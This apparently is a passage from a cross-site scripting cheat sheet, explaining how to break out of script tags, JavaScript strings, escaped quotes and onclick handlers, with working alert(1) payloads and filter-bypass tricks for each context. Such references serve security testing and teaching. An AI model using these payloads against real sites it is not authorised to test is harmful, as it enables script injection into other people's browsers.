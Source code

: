     * Example:  \<script\> var x =’*user-input*’\</script\>

```html
</script><img src=x onerror=alert(1)>
```


### JavaScript String with angle brackets encoded

* This payload will terminate the existing String and close the statement, then comment out the rest of line.  Since the input is within \<script\> tags the payload will execute as JS.

    * Example:  \<script\> var x =’*user-input*’\</script\>

```html
‘; alert(1) //
```


### JavaScript String with angle brackets, double quotes encoded, and single quotes escaped

* The escape character itself, is not escaped, so when we supply it in the payload the application will end up escaping the escape character, instead of the single quote.  Since the input is already within \<script\> tags, the alert() will execute.

    * Example:  \<script\> var x =’*user-input*’\</script\>

* **Payload**
```html
\’; alert(1)//
```

* **End-Result**
```html
\\’;alert(1)//
```


### XSS is onclick event with angle brackets, double quotes encoded, and single/backslashes escaped

* Bypass server-side validation by submitting HTML entities.  The Browser will decode the HTML entities before the JavaScript is executed, which will break out of the context and execute the JavaScript.

    * Example:  \<a onclick=”var x=z; x.y(‘http://*user-input*’);” \>


* **Payloads**

```
&apos; ) ; alert(1) ;//
```
```
&apos; -alert(1)- &apos; 
```


### XSS into template literal `` 
